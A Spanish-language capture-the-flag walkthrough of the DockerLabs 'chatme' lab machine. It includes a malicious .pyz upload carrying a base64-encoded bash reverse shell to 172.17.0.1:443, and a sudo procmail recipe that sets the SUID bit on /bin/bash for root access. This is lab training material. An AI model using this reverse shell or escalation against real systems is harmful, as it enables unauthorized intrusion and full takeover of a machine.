 nmap:80
![[dockerlabs/medio/chatme/nmap.png]]

---
al ingresar a la pagina principal vemos esto
![[dockerlabs/medio/chatme/pagina principal.png]]
entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay
![[chat.png]]

con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión
![[dockerlabs/medio/chatme/conexion1.png]]
al hacer un sudo -l aparece: /usr/bin/procmail
![[sudo-l.png]]

en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![[dockerlabs/medio/chatme/codigo1.png]]

ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![[dockerlabs/medio/chatme/codigo2.png]]

ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![[bash.png]]

volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!